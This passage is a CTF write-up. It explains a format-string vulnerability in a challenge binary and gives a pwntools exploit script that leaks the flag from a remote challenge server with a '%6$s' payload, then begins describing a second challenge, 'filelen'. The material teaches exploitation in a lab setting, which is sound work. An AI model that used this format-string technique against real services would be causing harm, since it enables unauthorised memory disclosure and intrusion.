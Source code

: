 ```c
	setbuf(stdin, 0);
	setbuf(stdout, 0);
    vulnerable_function();
    return 0;
}
```

We can see that the vulnerable function here is aptly named `vulnerable_function()` which has an unformatted `printf(buffer)`. This means we `printf()` will effectively execute whatever format string we pass it. We can also see that the pointer to the flag would be printed for us in the first line before it asks for our input. We now pretty much have all the pieces of the puzzle should nothing else go wrong.

The first step usually to any format string is I'd try to check how far down the stack my input variables are being stored. We first do a simple input to find out more about our leakable stack:

![](https://i.ibb.co/tDYBB1d/fsa1.png)

We can see that starting from the 6th item it is already regurgitating what we're passing to it. Let's clean it up a bit as a mini proof-of-concept:

![](https://i.ibb.co/5hmN9fS/fsa2.png)

Perfect. Now all we need to do is to grab the flag address that is given to us, feed it to the app and let format string bring home the flag for us.
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",25236)

r.recvuntil("at ")
payload = p32(int(r.recvline().rstrip("\n"), 0))
payload += "%6$s"

r.recvuntil(": ")
r.sendline(payload)
r.recvuntil("greyhats")
print("Flag: greyhats"+r.recvline())
```

![](https://i.ibb.co/6gSWd64/fsa3.png)


Flag: `greyhats{f0rmAt_5trin9_vuln3rabi1ities_4r3_d4ngerous}`

# filelen | 15 solves 476 pts
This is where the challenges start to require some looking into. We are provided with the sourcecode and a binary. The following is the `main()` function:
```c
int main() {
	char file_name[0x50];
	init();

	// measure file
	printf("Which file do you want to measure?\n> ");
	read(0, file_name, 0x50);
	char* nl = strchr(file_name, 0xa);
	if (nl)
		*nl = 0x0;
	measure(file_name);

	// get name
	printf("The file is %ldcm long!\n\n", flag_len);
	char* name = get_name();
```